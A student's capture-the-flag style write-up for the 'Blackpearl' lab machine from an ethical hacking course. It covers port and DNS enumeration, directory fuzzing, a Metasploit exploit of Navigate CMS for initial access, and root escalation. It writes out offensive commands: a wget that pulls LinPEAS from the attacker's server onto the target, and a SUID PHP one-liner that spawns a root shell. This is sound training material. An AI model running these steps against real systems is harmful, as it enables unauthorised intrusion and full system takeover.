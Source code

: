 # 5th Capstone Machine
This is my write-up for the fifth machine in the capstone section of the Practical Ethical Hacking course.

## Machine Information
- **Name**: Blackpearl
- **Difficulty**: Easy
- **OS**: Debian
  
## Tools Used
- nmap: For port scanning and service enumeration.
- ffuf: To fuzz for directories and subdomains.
- DNSRecon: Perform a PTR Record lookup.
- LinPEAS: Privilege escalation path enumeration.

## Objectives
- Enumerate the system and identify services.
- Discover vulnerabilities within the system.
- Exploit the vulnerabilities to gain initial access.
- Escalate privileges to root.
  
## Enumeration
1. Nmap scan:
  
  - The first step was to enumerate open ports and services using nmap:
  
    `nmap -A -v -p- 10.0.2.154`

    ![image](https://github.com/user-attachments/assets/e6d222a0-b2ae-4a85-a59f-0214576f0396)

  
2. Port 80 HTTP Enumeration:

- Accessing the web server at `http://10.0.2.154` displayed an Nginx install page.

- Fuzzing for directories did not result in futher findngs.
  
3. DNS Enumeration:

- Used dnsrecon to scan for dns records.

  `dnsrecon -r 127.0.0.0/24 -n 10.0.2.154 -d domain`

  ![image](https://github.com/user-attachments/assets/6d400e76-4f4d-4a8b-a710-49a5bf0464cf)

- Added the record to /etc/hosts.

- Navigating to `http://blackpearl.tcm` showed a PHP info page.

- Ran ffuf for directory fuzzing:

  `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ`

- Found the directory /navigate which showed a login page for Navigate CMS.
     
## Initial Access
- Researched for Navigate CMS vulnerabilities and found an unauthenticated RCE vulnerability that has a metasploit module.
  
- Using the metasploit module, set the rhost at blackpearl.tcm.

  ![image](https://github.com/user-attachments/assets/ed040ca4-c399-4b5a-b0a1-cf8578c652b1)

- Ran the exploit and a meterpreter session opened.

- Entered shell to drop into a shell and ran whoami to see that the shell is running as www-data.

- Since the machine has python, used it to spawn a tty.

  `python -c 'import pty; pty.spawn("/bin/bash")'`

## Priviledge Escalation
- Transfered LinPEAS to the target machine.

  `python3 -m http.server 80`

  `wget http://10.0.2.15/linpeas.sh linpeas.sh`

  `chmod +x linpeas.sh`

- LinPEAS found that the SUID bit is set on a PHP binary.

- GTFOBins gives the command to escalte privileges.

  `/usr/bin/php7.3 -r "pcntl_exec('/bin/bash', ['-p']);"`

- This spawned a shell running as root.

  ![image](https://github.com/user-attachments/assets/e1f12cf8-c377-4ef3-b8ba-73a7f9286003)

## Lessons Learned
This machine provided practical experience in DNS enumeration, specifically understanding pointer records, server blocks, and configuring local DNS resolution with the /etc/hosts file. I also practiced privilege escalation techniques by identifying and exploiting SUID bits on binaries using LinPEAS and GTFOBins.

![image](https://github.com/user-attachments/assets/512bb12d-8dc9-4d8e-9970-7882dfb71ad5)
